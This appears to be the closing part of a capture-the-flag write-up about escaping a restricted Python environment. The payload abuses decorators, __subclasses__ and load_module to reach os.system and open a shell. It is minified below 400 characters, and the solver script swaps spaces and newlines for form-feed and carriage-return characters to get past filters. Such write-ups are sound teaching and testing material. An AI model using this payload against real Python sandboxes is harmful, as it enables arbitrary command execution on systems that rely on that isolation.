 ```python
class os:
    pass

@os.system
class sh:
    pass
```

This exploit works on Python 3.8, but it exceedes length 400, so we will minify it: move `__builtins__` to shorter variable, rename variables to single char, replace `...` and `pass` with `[]`, rename unused whitespace symbols. Then we will get something like this:

```python
__build_class__:[]
for b in[__builtins__]:[]
for m in __annotations__:[]
for b[m]in[b.get]:[]
for o in[m.__class__.__base__]:[]
for b[o.__class__.__name__]in[o]:[]
@o.__class__.__subclasses__
@b.get
class type:[]
@type.__getitem__
@m.__class__.__sizeof__
class offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx:[]
@offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx.load_module
class os:[]
@os.system
class sh:[]
```

The length is 383. Don't forget to replace all spaces to `\x0c` and newlines to `\r`. The example solver:

```python
#!/usr/bin/env python3.8

import sys


payload = '''
__build_class__:[]
for b in[__builtins__]:[]
for m in __annotations__:[]
for b[m]in[b.get]:[]
for o in[m.__class__.__base__]:[]
for b[o.__class__.__name__]in[o]:[]
@o.__class__.__subclasses__
@b.get
class type:[]
@type.__getitem__
@m.__class__.__sizeof__
class offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx:[]
@offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx.load_module
class os:[]
@os.system
class sh:[]
'''

result = payload.strip().replace(' ', '\x0c').replace('\n', '\r')

print(f'len(result) == {len(result)}', file=sys.stderr)
print(result)
```
